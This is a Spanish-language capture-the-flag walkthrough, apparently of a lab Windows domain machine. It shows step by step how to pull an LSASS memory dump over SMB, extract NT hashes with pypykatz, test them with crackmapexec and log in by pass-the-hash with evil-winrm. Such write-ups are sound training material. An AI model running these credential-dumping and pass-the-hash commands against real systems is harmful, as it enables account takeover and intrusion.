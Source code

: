## Vuln exploit & Gaining Access {-}

### Ganando accesso con Win-RM {-}

```bash
smbclient //10.10.10.192/forensic -U 'audit2020%s4vitar123$!'
dir
cd commands_output
get domain_users.txt
get domain_admins.txt
cd ..
cd memory_analysis
dir
get lsass.zip
```

Nos hemos descargados un fichero domain_users y un fichero domain_admins. Podemos ver un usuario **iPownedYourCompany** que nos hace
pensar que esta maquina a sido comprometida anteriormente. Tambien vemos un directorio memory_analysis y un fichero nos llama la atencion.
Este fichero es el `lsass.zip`. Nos llama la atencion porque hay una utilidad `pypykatz` con la cual podriamos ver informaciones relevantes dumpeadas
a nivel de memoria. 

```bash
unzip lsass.zip
pypykatz lsa minidump lsass.DMP
```

Aqui tenemos informaciones como usuarios y contraseña **NT** hasheadas. Los NT Hashes nos permiten hacer **PassTheHash** que simplemente seria connectarnos
con el usuario poniendo la contraseña hasheada (No se necesita conocer la contraseña en este caso).

Vemos el hash del usuario Administrator. Controlamos esto con crackmap exec.

```bash
crackmapexec smb 10.10.10.192 -u 'Administrator' -H '7f1e4ff8c5a8e6b5fcae2d9c0472cd62'
```

Pero vemos que esta credencial no es valida. Vemos otro usuario `svc_backup` lo miramos.

```bash
crackmapexec smb 10.10.10.192 -u 'svc_backup' -H '9659d1d1dcd9250115e2206d9f49400d'
```

Esta credencial esta valida. Intentamos ver si nos podemos conectar con winrm

```bash
crackmapexec winrm 10.10.10.192 -u 'svc_backup' -H '9659d1d1dcd9250115e2206d9f49400d'
```

Aqui vemos que este usuario es Pwn3d!

```bash
evil-winrm -i 10.10.10.192 -u 'svc_backup' -H '9659d1d1dcd9250115e2206d9f49400d'

whoami 
#Output
blackfield\svc_backup

ipconfig
#Output
10.10.10.192
```

Estamos conectados como el usuario svc_backup y podemos leer la flag.